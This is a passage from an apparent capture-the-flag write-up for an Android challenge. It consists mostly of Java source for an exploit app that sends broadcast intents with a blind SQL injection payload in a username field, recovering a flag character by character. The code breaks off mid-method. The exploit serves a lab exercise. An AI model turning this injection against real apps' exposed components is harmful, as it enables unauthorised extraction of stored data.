 
So, the app that we need create, need **take** the **flag**.
You can create an **app** for **lollipop** android version (5.1) and here is the code
```java
package com.example.exploitapp;  
  
import android.content.BroadcastReceiver;  
import android.content.Context;  
import android.content.Intent;  
import android.content.IntentFilter;  
import android.os.Bundle;  
import android.util.Log;  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    private final String knownPrefix = "ctf{An injection is all you need to get this flag - ";  
    private int currentIndex = knownPrefix.length() + 1;  
    private char testChar = '0';  
    private String recoveredFlag = "";  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity_main);  
  
        Log.d("Exploit", "Starting exploit sequence...");  
  
        // Register broadcast receiver for output intent  
        IntentFilter intentFilter = new IntentFilter("com.bobbytables.ctf.myapplication_OUTPUTINTENT");  
        registerReceiver(new FlagReceiver(), intentFilter);  
  
        // Start flag extraction  
        extractNextChar();  
    }  
  
    private void extractNextChar() {  
        String injectionPayload = "\" OR substr(flag, " + currentIndex + ", 1) = \"" + testChar + "\" --";  
        Intent intent = new Intent("com.bobbytables.ctf.myapplication_INTENT");  
        intent.putExtra("username", injectionPayload);  
        intent.putExtra("password", "asdasdas");  // Password doesn't matter due to SQLi  
        sendBroadcast(intent);  
    }  
  
    private class FlagReceiver extends BroadcastReceiver {  
        @Override  
        public void onReceive(Context context, Intent intent) {  
            String response = intent.getStringExtra("msg");  
  
            if ("Incorrect password".equals(response)) {  
                recoveredFlag += testChar;  // Character found!  
                currentIndex++;  // Move to next position  
                testChar = '0';  // Reset char to start from '0'  
                Log.d("Exploit", "Here's your flag: " + recoveredFlag);  
            } else {  
                if (testChar == '9') {  
                    testChar = 'a';  // Move to 'a' after '9'  
                } else if (testChar == 'f') {  
                    // This is an assumption that the flag uses hexadecimal characters  
                    Log.w("Exploit", "Flag extraction completed: " + knownPrefix + recoveredFlag + "}");  
                    return;  // Flag recovered  
```